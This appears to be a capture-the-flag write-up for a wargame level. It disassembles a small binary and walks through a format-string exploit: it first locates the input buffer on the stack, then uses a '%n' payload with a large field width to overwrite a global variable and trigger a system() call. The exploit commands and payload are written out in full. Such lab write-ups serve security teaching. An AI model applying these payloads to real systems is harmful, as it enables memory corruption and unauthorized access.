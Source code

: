 # Level4

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4

## Testing the program

```bash
./level4 
hello
hello
```

Once more we have an executable which displays the string passed. 

## Learning more

```bash
disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.
``` 

The executable calls a function called 'n'. 

```bash
disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt> --> CALL TO FGETS
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p> --> CALL TO ANOTHER FUNCTION CALLED P
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt> --> CALL TO SYSTEM
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

3 things here :
```plaintext
    • a "fgets" call
    • a call to a "p" function
    • a condition for a call to "system"
```

The program compares the value of a global variable m at 0x8049810 to 0x1025544 (16930116 in dec).

```bash
disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

Once again we have "printf" that calls the argument, without formater --> Format string again

## Getting access to the shell

Like in level3 our goal is to manipulate the printf() function into changing the value of the variable at the address 0x8049810 so that it equals 16930116. 

1. Print the memory until we reach the address of the variable we wish to modify

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' > /tmp/coucou
$ cat /tmp/coucou - | ./level4
aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520
```

The buffer aaaa is at the 12th position (61616161). 

2. Change the value

Our previous method won't work here because the value 16930116 in the comparaison is too long.
However we can use the modifier %d, and dynamically specify the field width (as so : %16930116d).
This will be the only difference between this level and the older one.

3. Making the payload 

We have to reach a total of : 16930116, we have the adrress of m which takes up 4 bytes so our final padding is 16930112. 
Giving us the following payload : 

```bash 
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/coucou
$ cat /tmp/coucou | ./level4
[...]
     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```